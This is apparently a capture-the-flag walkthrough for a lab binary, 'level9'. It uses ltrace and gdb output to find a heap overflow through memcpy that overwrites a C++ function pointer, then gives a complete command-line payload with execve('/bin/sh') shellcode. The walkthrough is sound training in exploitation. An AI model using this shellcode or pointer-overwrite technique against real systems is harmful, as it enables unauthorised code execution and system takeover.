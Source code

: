 In the [code](./source.cpp), we can observe that there is 2 instances of `N` with a call to `setAnnotation` with the input and that make an unprotected call to `memcpy`.
We will use a buffer overflow to replace the pointer of `func` in `b` to execute a shell code that will execute bash.

## Investigation

1) First, we will need to know where our instances are in the memory.
   ```shell
   $ ltrace ./level9 aaaa
   _Znwj(108, 0xbffff7e4, 0xbffff7f0, 0xb7d79e55, 0xb7fed280)                = 0x804a008
   _Znwj(108, 5, 0xbffff7f0, 0xb7d79e55, 0xb7fed280)                         = 0x804a078
   ```
   Our first instance is at `0x804a008`. We can observe the memory at this address
   ```shell
   (gdb) x/8xw 0x804a000
   0x804a000:      0x00000000      0x00000071      0x08048848      0x61616161
   0x804a010:      0x00000000      0x00000000      0x00000000      0x00000000
   ```
   We can see that our input is stored at `0x804a00c` and that there is a pointer at `0x804a008`. We can see where it points with
   ```shell
   (gdb) x/x 0x08048848
   0x8048848 <_ZTV1N+8>:   0x0804873a
   ```
   With the code on the side we could imagine that `0x0804873a` is the default value of `func` with a pointer to the `operator+` of `N`.
   We can verify that with
   ```shell
   (gdb) i fun N
   ...
   0x0804873a  N::operator+(N&)
   ...
   ```

2) Then, we will need the offset before writing in `func` of `b`. As seen in 1), we know that `func` is stored at the first byte of the instance, and that the instance of `b` is at `0x804a078`.
   We can then calculate the difference between our input and the target with `0x804a078 - 0x804a00c = 0x6c = 0d108`.

3) Finaly, we need to be aware that `func` need to be a pointer. So the value of our input need to be a pointer to our shell code.
   We will target the next byte after our input `0x804a00c + 4 = 0x804a010`.

## Exploit

We will use the same shell code used in [level2](../level2/walkthrough.md).

Our payload will look like this
```
<pointer to shell code> + <shell code> + "a"*<offset> + <address of input>
```
Completed it will be
```
"\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a" * 83 + "\x0c\xa0\04\x08"
```

```shell
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a" * 83 + "\x0c\xa0\04\x08"')
```
